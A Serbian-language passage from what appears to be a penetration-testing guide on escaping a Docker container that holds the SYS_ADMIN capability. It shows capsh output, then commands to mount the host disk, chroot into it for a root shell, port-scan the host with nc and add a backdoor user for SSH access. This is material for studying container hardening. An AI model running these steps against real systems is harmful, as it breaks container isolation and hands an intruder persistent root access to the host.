 Možete proveriti omogućene sposobnosti unutar Docker kontejnera koristeći:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Unutar prethodnog izlaza možete videti da je omogućena SYS\_ADMIN sposobnost.

* **Montiranje**

Ovo omogućava docker kontejneru da **montira host disk i slobodno mu pristupa**:

```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```

* **Puna pristupa**

U prethodnoj metodi smo uspeli da pristupimo disku domaćina Docker-a.\
U slučaju da primetite da domaćin pokreće **ssh** server, možete **kreirati korisnika unutar diska domaćina Docker-a** i pristupiti mu putem SSH-a:

```bash
#Like in the example before, the first step is to mount the docker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```
